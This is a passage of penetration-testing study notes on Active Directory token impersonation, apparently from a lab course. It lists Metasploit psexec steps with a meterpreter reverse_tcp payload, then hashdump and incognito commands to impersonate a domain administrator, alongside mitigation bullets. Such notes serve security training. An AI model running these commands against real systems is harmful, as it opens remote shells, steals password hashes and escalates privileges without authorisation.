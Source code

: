 * Limit account re-use
* Utilize strong passwords (> 14 characters)
* Privilege Access Management (PAC)

### Token Impersonation Attacks

#### What are tokens?

* Temporary keys that allows you to access to a system/network without having to provide credentials each time you access a file. Like cookies for computers.
* Two types:
1. Delegate - created for logging in to a machine or using Remote Desktop
2. Impersonate - "non-interactive" such as attaching a network drive or a domain logon script.

#### Using Metasploit

* `use /exploit/windows/smb/psexec/`
* `options`
* `set rhosts <target IP>`
* `set smbdomain domain.local`
* `set smbpass password`
* `set smbuser username`
* `show targets`
* `set target 2`
* `set payload windows/x64/meterpreter/reverse_tcp`
* `options` and set the lhost and lport

* `getuid`
* `hashdump`
* we can load incognito `load incognito`
* `help` to see options
* `list tokens`
* `impersonate token marvel\\administrator`
* `whoami` : marvel\administrator

#### Mitigation

* Limit User/Group token creation permissions
* Account tiering
* Local Admind restriction

### Kerberoasting
